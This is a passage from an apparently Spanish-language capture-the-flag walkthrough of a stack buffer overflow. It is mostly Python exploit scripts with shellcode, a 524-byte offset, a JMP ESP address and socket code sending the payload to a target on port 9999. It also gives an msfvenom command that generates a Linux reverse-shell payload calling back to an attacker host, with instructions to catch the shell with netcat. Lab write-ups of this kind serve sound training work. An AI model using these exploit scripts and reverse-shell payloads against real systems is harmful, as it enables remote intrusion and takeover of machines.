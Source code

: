 ```python
shellcode += b"\x43\xec\x12\x53\xfb\xc5\x1a\x38\xfb\xea\xce"
shellcode += b"\xef\xab\x44\xa1\x4f\x1b\x25\x11\x38\x71\xaa"
shellcode += b"\x4e\x58\x7a\x60\xe7\xf3\x81\xe3\x02\x0c\x8a"
shellcode += b"\x9a\x7a\x0e\x8c\x5d\xc0\x87\x6a\x37\x26\xce"
shellcode += b"\x25\xa0\xdf\x4b\xbd\x51\x1f\x46\xb8\x52\xab"
shellcode += b"\x65\x3d\x1c\x5c\x03\x2d\xc9\xac\x5e\x0f\x5c"
shellcode += b"\xb2\x74\x27\x02\x21\x13\xb7\x4d\x5a\x8c\xe0"
shellcode += b"\x1a\xac\xc5\x64\xb7\x97\x7f\x9a\x4a\x41\x47"
shellcode += b"\x1e\x91\xb2\x46\x9f\x54\x8e\x6c\x8f\xa0\x0f"
shellcode += b"\x29\xfb\x7c\x46\xe7\x55\x3b\x30\x49\x0f\x95"
shellcode += b"\xef\x03\xc7\x60\xdc\x93\x91\x6c\x09\x62\x7d"
shellcode += b"\xdc\xe4\x33\x82\xd1\x60\xb4\xfb\x0f\x11\x3b"
shellcode += b"\xd6\x8b\x21\x76\x7a\xbd\xa9\xdf\xef\xff\xb7"
shellcode += b"\xdf\xda\x3c\xce\x63\xee\xbc\x35\x7b\x9b\xb9"
shellcode += b"\x72\x3b\x70\xb0\xeb\xae\x76\x67\x0b\xfb"

after_eip = b"\x90"*32 + shellcode # ESP empleando 32 NOPs

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.240.207", 9999))
s.send(payload)
s.close
```

>Si nos ponemos en escucha con netcat y lanzamos el script, podremos ver que hemos ganado acceso a la máquina víctima:

![Pasted image 20240830160217](https://github.com/user-attachments/assets/dd0fcbd8-60f0-4274-822b-ed1a23d1a119)

>Ahora, deberemos saltar a la máquina linux real que está cargando el subsistema de Windows, por lo que deberemos modificar el script del buffer overflow para tratar de entablarnos una reverse shell pero empleando un shellcode para Linux x86:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.8.3.105 LPORT=443 -f py -v shellcode -b "\x00\x0a\x0d"
```

>Script modificado con el shellcode correspondiente a una reverse shell para Linux:

```python
#!/usr/bin/python3

import socket

offset = 524
before_eip = b"A" * offset

eip = b"\xf3\x12\x17\x31" # <--- 0x311712f3 - JMP ESP

shellcode =  b""
shellcode += b"\xd9\xcd\xd9\x74\x24\xf4\xbd\xd6\x33\xf5\x5a"
shellcode += b"\x5e\x33\xc9\xb1\x12\x31\x6e\x17\x03\x6e\x17"
shellcode += b"\x83\x38\xcf\x17\xaf\xf5\xeb\x2f\xb3\xa6\x48"
shellcode += b"\x83\x5e\x4a\xc6\xc2\x2f\x2c\x15\x84\xc3\xe9"
shellcode += b"\x15\xba\x2e\x89\x1f\xbc\x49\xe1\x95\x36\xa9"
shellcode += b"\x98\xc1\x44\xad\x5b\xa9\xc0\x4c\xeb\xab\x82"
shellcode += b"\xdf\x58\x87\x20\x69\xbf\x2a\xa6\x3b\x57\xdb"
shellcode += b"\x88\xc8\xcf\x4b\xf8\x01\x6d\xe5\x8f\xbd\x23"
shellcode += b"\xa6\x06\xa0\x73\x43\xd4\xa3"

after_eip = b"\x90"*32 + shellcode # ESP empleando 32 NOPs

payload = before_eip + eip + after_eip
```